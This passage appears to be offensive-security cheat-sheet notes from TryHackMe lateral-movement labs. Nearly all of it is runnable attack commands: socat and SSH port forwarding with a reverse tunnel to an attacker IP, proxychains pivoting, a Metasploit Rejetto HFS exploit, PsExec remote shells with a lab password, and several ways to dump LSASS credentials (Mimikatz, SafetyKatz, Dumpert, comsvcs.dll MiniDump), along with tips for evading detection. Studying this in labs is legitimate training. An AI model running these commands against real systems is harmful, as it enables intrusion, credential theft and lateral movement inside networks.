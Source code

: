 - Example
  ```Powershell
  socat TCP4-LISTEN:13389,fork TCP4:THMIIS.za.tryhackme.com:3389
  xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020
  ```

### Dynamic Port Forwarding and SOCKS
- Victim: `ssh attacker@10.50.46.25 -R 9050 -N`
- Attacker: 
  1. `[ProxyList] socks4  127.0.0.1 9050`
  2. `proxychains curl http://<target_ip_or_domain>`

### Rejetto HFS
1. `ssh <user>@<host> -R 8888:<remote_target_host>:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N`
2. `windows/http/rejetto_hfs_exec`
- Get it here: [rejetto.com/hfs/](https://www.rejetto.com/hfs/)
- See: [Task 7 "Tunnelling Complex Exploits"](https://tryhackme.com/room/lateralmovementandpivoting)

### PsExec
```PowerShell
./PsExec64.exe -i  \\<TARGET> -u <DOMAIN>\<USERNAME> -p <PASSWORD> cmd
```
Requirements
- The user that authenticates to the target machine needs to be part of the Administrators local group
- An SMB connection through the firewall
- The `ADMIN$` share must be available
- File and Printer Sharing has to be turned on

Note:
- `psexec.exe` is very noisy. If you can, use PSRemoting instead


### Extracting Credentials from LSASS

- Note: Avoid LSASS, search credentials there just if you are desperate. Search in “credentials vault” e “DPAPI”.
- Dump credentials on a local machine using Mimikatz:
  `Invoke-Mimikatz -Command '"sekurlsa::ekeys"'`
- Using [SafetyKatz](https://github.com/GhostPack/SafetyKatz) (Minidump of lsass and PELoader to run Mimikatz):
  `SafetyKatz.exe "sekurlsa::ekeys"`
- Dump credentials Using [SharpKatz](https://github.com/b4rtik/SharpKatz):
  `SharpKatz.exe --Command ekeys`
- Dump credentials using [Dumpert](https://github.com/outflanknl/Dumpert) (Direct System Calls and API unhooking):
  `rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump`
- Using [pypykatz](https://github.com/skelsec/pypykatz) (Mimikatz functionality in Python):
  `pypykatz.exe live lsa`
- Using comsvcs.dll:
  `tasklist /FI "IMAGENAME eq lsass.exe" rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full`
- From a Linux attacking machine using impacket
- From a Linux attacking machine using Physmem2profit
